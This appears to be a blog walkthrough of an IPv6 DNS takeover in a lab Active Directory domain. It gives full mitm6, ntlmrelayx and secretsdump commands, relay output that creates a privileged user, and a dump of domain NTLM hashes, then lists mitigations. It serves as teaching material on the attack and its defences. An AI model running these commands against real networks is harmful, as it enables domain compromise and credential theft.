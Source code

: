 ```yaml
---
layout:	post
title:  "AD Initial-Attacks: IPv6 DNS Takeover"
date:   2024-07-22 11:11:11 +0200
categories: [Active Directory]
tags: [Active Directory]
---
```


## Pre-requisites

[AD: Fundamentals (venuschhantel.com.np)](https://venuschhantel.com.np/posts/AD_Fundamentals/)

<br>

## AD Environment

The AD environment for the IPv6 DNS Takeover walkthrough is illustrated in the image below.

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/1.png)

<br>

## IPv6 DNS Takeover

Many network primarily use IPv4 but also have IPv6 enabled. Often IPv6 DNS server is not configured. So, there is usually nothing that does the DNS for IPv6. Attacker can take advantage of this **misconfiguration** and spoof as IPv6 DNS server to carry out MITM attack.

To carry out the attack, we will use ntlmrelayx and mitm6 tools from ‘hecker’ machine. Execute ntlmrelayx with the following command to relay IPv6 traffic to DC.  

```bash
$ impacket-ntlmrelayx -6 -t ldaps://192.168.190.130 -wh wpad.APEWITHINTERNET.local -l Out
```

Then, mitm6 was executed with following command to spoof and intercept IPv6 traffic. Make sure to use this in short sprints of 5-10 minutes in production environment as it can cause network outages.

```bash
$ sudo mitm6 -d APEWITHINTERNET.local
```

Now, when any event occur on the network like machine startup/reboot or user logins, they will be intercepted and relayed to DC.

<br>

When PC1 startup/reboot, the PC will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC.  

```bash
*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Serving PAC file to client ::ffff:192.168.190.129
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Additionally, it uses ldapdomaindump to dump out various object information like users, computers, groups, policy, trusts, etc, in various file format which are listed below.  This can be useful for enumeration.

```bash
-rw-rw-r-- 1 kali kali  2209 Jul 21 14:28 domain_computers_by_os.html
-rw-rw-r-- 1 kali kali   706 Jul 21 14:28 domain_computers.grep
-rw-rw-r-- 1 kali kali  1873 Jul 21 14:28 domain_computers.html
-rw-rw-r-- 1 kali kali 12180 Jul 21 14:28 domain_computers.json
-rw-rw-r-- 1 kali kali 10202 Jul 21 14:28 domain_groups.grep
-rw-rw-r-- 1 kali kali 17213 Jul 21 14:28 domain_groups.html
-rw-rw-r-- 1 kali kali 82546 Jul 21 14:28 domain_groups.json
-rw-rw-r-- 1 kali kali   267 Jul 21 14:28 domain_policy.grep
-rw-rw-r-- 1 kali kali  1163 Jul 21 14:28 domain_policy.html
-rw-rw-r-- 1 kali kali  5458 Jul 21 14:28 domain_policy.json
-rw-rw-r-- 1 kali kali    71 Jul 21 14:28 domain_trusts.grep
-rw-rw-r-- 1 kali kali   828 Jul 21 14:28 domain_trusts.html
-rw-rw-r-- 1 kali kali     2 Jul 21 14:28 domain_trusts.json
-rw-rw-r-- 1 kali kali 18519 Jul 21 14:28 domain_users_by_group.html
-rw-rw-r-- 1 kali kali  2177 Jul 21 14:28 domain_users.grep
-rw-rw-r-- 1 kali kali  8223 Jul 21 14:28 domain_users.html
-rw-rw-r-- 1 kali kali 18589 Jul 21 14:28 domain_users.json
```

<br>

Also, when user try to login, they will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC. 

```bash
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=APEWITHINTERNET,DC=local
[*] Adding new user with username: CBHOxNqxcU and password: Dm=:S12UF7h2=h~ result: OK
[*] Querying domain security descriptor
[*] Success! User CBHOxNqxcU now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240721-143455.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting
```

As can be seen in above output, it created a user named ‘CBHOxNqxcU’ with password ‘Dm=:S12UF7h2=h~’, which is verified below..

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/2.png)

<br>

## Additional

Since the tool creates a user. We can use that user to dump out NTDS.DIT as can be seen below. The dumped hash can be later cracked offline.

```bash
$ impacket-secretsdump APEWITHINTERNET/CBHOxNqxcU:Dm=:S12UF7h2=h~@192.168.190.130 -just-dc-ntlm
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:064fbbe5db9939f23459813a58e24a78:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ff99a9aaf9780bb473a16a218c7a3848:::
APEWITHINTERNET.local\ape:1103:aad3b435b51404eeaad3b435b51404ee:f7ea8d7ec5f7ccf8e50b661ee29f8ee0:::
APEWITHINTERNET.local\monkee:1104:aad3b435b51404eeaad3b435b51404ee:868af3862be0f5859ab56ca33330d795:::
APEWITHINTERNET.local\chimp:1105:aad3b435b51404eeaad3b435b51404ee:fc15b4e40a055ef9b1937538e61ab5c6:::
APEWITHINTERNET.local\SQLService:1106:aad3b435b51404eeaad3b435b51404ee:b5d902ffca907a7cb1d8fb9bf4dbb0bd:::
CBHOxNqxcU:1111:aad3b435b51404eeaad3b435b51404ee:025a288deddf795bb558cf658a90fb4c:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:0fd99f8be51a76a7237ab34a1f58e218:::
PC2$:1109:aad3b435b51404eeaad3b435b51404ee:0ecc239e48df9c0052227ddbd282984f:::
PC1$:1110:aad3b435b51404eeaad3b435b51404ee:0a6696279f7963e540d35e0e760a2b62:::
[*] Cleaning up... 
```

<br>

## Mitigations

- If IPv6 is not used, block DHCPv6 traffic via Windows Firewall Group Policy
    - (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)
    - (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
    - (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)
- Enable LDAP signing and LDAP channel binding to avoid LDAP/LDAPS relay
- If WPAD is not used, disable it via registry
    - Set ‘HKLM\SYSTEM\CurrentControlSet\Services\WinHttpAutoProxySvc\Start’ value to 4
- Add high privileges users to Protected Users group to prevent impersonation of user via delegation